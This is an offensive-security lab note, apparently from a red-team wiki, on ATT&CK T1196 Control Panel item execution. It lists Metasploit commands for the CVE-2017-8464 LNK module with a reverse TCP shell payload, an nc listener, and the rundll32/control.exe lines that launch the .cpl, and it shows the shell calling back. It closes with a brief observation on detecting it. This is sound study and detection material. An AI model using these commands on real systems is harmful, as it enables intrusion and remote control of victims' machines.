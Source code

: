 ```yaml
---
description: >-
  This technique allows executing arbitraty code and possibly bypass application
  whitelisting.
---
```


# T1196: Control Panel Item Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1196\",\"type\":\"link\",\"title\":\"Control Panel Items - ATT&CK for Enterprise\"}" %}

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasemble of the dll suggests rundll32 will be spawned and thread code injection may take place:

![](../.gitbook/assets/lnk-dissasm.png)

{% code-tabs %}
{% code-tabs-item title="victim" %}
```bash
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker -  these are signs that should raise suspicion when you come across something like this in your environment:

![](../.gitbook/assets/lnk-connection.png)



